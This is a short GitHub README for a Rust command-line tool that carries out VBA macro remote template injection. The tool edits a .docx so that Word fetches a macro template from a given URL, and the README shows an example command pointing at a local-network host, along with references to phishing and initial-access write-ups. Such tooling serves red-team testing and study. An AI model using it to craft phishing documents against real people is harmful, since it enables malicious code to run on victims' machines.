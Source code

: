 # remote-template-injector
VBA Macro Remote Template Injection written in Rust

## Usage

```
❯ remote-template-injector -h

VBA Macro Remote Template Injection written in Rust

Usage: remote-template-injector --url <URL> --file <FILE> --output <OUTPUT>

Options:
  -u, --url <URL>        Template URL
  -f, --file <FILE>      File to be injected
  -o, --output <OUTPUT>  Output location of modified docx file
  -h, --help             Print help
  -V, --version          Print version
```

## Example

```
❯ remote-template-injector -f /path/to/file.docx -u http://192.168.1.2/template.dot -o /path/to/output.docx
Editing remote template url...
Word successfully injected. Generated file: /path/to/output.docx
Good Luck!
```

## References
- https://john-woodman.com/research/vba-macro-remote-template-injection/
- https://blog.sunggwanchoi.com/remote-template-injection/
- https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros

## License

MIT License